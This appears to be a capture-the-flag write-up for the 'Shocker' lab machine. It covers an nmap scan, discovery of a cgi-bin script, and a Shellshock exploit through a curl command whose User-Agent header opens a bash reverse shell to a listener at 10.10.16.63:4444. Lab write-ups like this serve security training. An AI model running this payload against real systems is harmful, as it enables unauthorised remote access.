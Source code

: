 # shocker

## nmap scan
```log
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-15 05:50 EDT
Nmap scan report for 10.10.10.56
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   123.93 ms 10.10.16.1
2   206.08 ms 10.10.10.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.51 seconds

```


## web page
<p align="center">
  <img  src="Pasted image 20210715105154.png">
</p>
<p align="center">
  <img  src="Pasted image 20210715105217.png">
</p>

## directory enumeration
<p align="center">
  <img  src="Pasted image 20210715122218.png">
</p>

Found a `cgi-bin` folder, maybe its vulnerable to shellshock
('maybe' ? its literally the name of the machine `shock`)

anyway let's enumerate the files insides the folder.

<p align="center">
  <img  src="Pasted image 20210715122453.png">
</p>
Found `user.sh` file, let's exploit it

The command I used:
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.63/4444 0>&1"' http://10.10.10.56/cgi-bin/user.sh
```

Got the shell :
<p align="center">
  <img  src="Pasted image 20210715122748.png">
</p>

## Privilege escalation
### shell stabilization
<p align="center">
  <img  src="Pasted image 20210715123008.png">
</p>
<p align="center">
  <img  src="Pasted image 20210715123130.png">
</p>
